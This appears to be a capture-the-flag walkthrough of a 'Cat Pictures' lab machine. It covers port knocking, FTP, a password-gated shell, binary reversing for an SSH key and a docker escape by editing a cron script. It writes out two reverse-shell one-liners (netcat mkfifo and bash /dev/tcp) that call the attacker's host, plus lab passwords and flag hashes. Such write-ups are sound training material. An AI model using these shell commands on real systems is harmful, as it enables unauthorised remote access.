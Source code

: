 # Cat Pictures

### Flags, flags, flags!
Initial nmap scan shows port 22, 4420 and 8080 open, 21 and 2375 filtered: 

    PORT     STATE    SERVICE      VERSION
    21/tcp   filtered ftp
    22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
    |   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
    |_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
    2375/tcp filtered docker
    4420/tcp open     nvm-express?
    | fingerprint-strings: 
    |   DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
    |     INTERNAL SHELL SERVICE
    |     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
    |     ctrl-c
    |     Please enter password:
    |     Invalid password...
    |     Connection Closed
    |   NULL, RPCCheck: 
    |     INTERNAL SHELL SERVICE
    |     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
    |     ctrl-c
    |_    Please enter password:
    8080/tcp open     http         Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
    | http-open-proxy: Potentially OPEN proxy.
    |_Methods supported:CONNECTION
    |_http-title: Cat Pictures - Index page
    |_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
    
![image](https://github.com/user-attachments/assets/871acec5-e4e3-41b9-8ff4-012394d53c0b)<br />
Port 4420 seems to serve an internal shell service that I can only use if I prompt the right password. 
<br />
Let's check out the webserver. Enumerating it I found this forum: <br />
![image](https://github.com/user-attachments/assets/6aea59eb-04b7-4db6-b2c5-51e3b1e4f893)<br />
This is a huge hint. What I need to do is a **port knocking** attack. What is port knocking?<br />

Port knocking is an authentication technique used by network administrators. It consists of a specified sequence of closed port connection attempts to specific IP addresses called a knock sequence. The techniques uses a daemon that monitors a firewall’s log files looking for the correct connection request sequence.<br />

The hint suggests me that I probably need to "knock" on ports 1111,2222,3333 and 4444 sequentially. To knock on ports, I'm going to use the `knock` command(sudo apt-get install knockd). Look what happens: <br />
![image](https://github.com/user-attachments/assets/8839c287-05d2-4fc2-a7dc-7061e358d030)<br />
On the left terminal, the first nmap shows that the ftp port is filtered (blocked by a firewall). However after trying to knock on the ports on the right terminal, the next nmap shows port 21 open! Our IP address is authenticated to access the FTP server.<br />
The FTP server is accessible with anonymous login, and contains a file called `note.txt` with the following content: <br />
![image](https://github.com/user-attachments/assets/d9defc21-ae52-4fb5-8f11-c4ad4119dfcf)<br />
So I used the password `sardinethecat` to log into the internal shell service on port 4420. This shell is very minimal, and can't even run the `cd` command. So I spawned a reverse shell on port 4444 using the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f`.
Inside `/home/catlover/` directory there's a binary called `runme`:<br />
![image](https://github.com/user-attachments/assets/8cfe0505-774f-4aa2-90ab-6415dba9a4d0)<br />
I need to find the right password. For that, there are a couple of ways. The most tedious one is to run `cat /home/catlover/runme` and find the password trapped inside garbage(the `strings` command is not available in the machine):<br />
![image](https://github.com/user-attachments/assets/cb21c4b0-107e-4dac-ac53-a8acaadfe31f)<br />
The other way (the way I used) is to transfer the binary on my machine using netcat, and then quickly analyzing it using IDA: <br />
![image](https://github.com/user-attachments/assets/9185742a-b623-4e8d-84cc-94183dfe8c26)<br />
As you can see, it's much more evident. <br />
After prompting the password `rebecca`, after a while a private ssh key is created inside catlover's home directory: <br />
![image](https://github.com/user-attachments/assets/dfa96664-0989-4852-9984-ea1365fd8c03)<br />
What I can do now is copy the private key in my machine, change it's permission with `chmod 600 id_rsa_catlover` and login with `ssh catlover@target_IP -i id_rsa_catlover`. This got me the first flag. <br />
After logging in with ssh, the first thing I notice is that I'm root. But not THE root. I'm inside a docker container(since there's a `.dockerenv` file inside `/`) and I need to find a way to escape. <br />
If I run the `mount` command this is a part of the output: <br />
![image](https://github.com/user-attachments/assets/74bc4620-2618-4013-a5fe-fffe7acccb1a)<br />
Seeing `/dev/xvda1` is suspicious and might be a shared resource with the host machine. <br />
Among other paths, it is also mounted in `/opt/clean/` in which there's a `clean.sh` file that might be a cronjob. <br />
Viewing the contents this looks like it is removing the contents of the /tmp/ directory. I placed some files in the directory and waited. After a short while the files had been removed from the directory.<br />
So to spawn a reverse shell on my machine, I run `echo "bash -i >& /dev/tcp/10.11.85.53/6666 0>&1" >> clean.sh`, and then wait for the connection: <br />
![image](https://github.com/user-attachments/assets/f56dc8cb-e3fc-443e-b21d-988bcc48ff13)<br />

- Flag 1: `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
- Root Flag `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

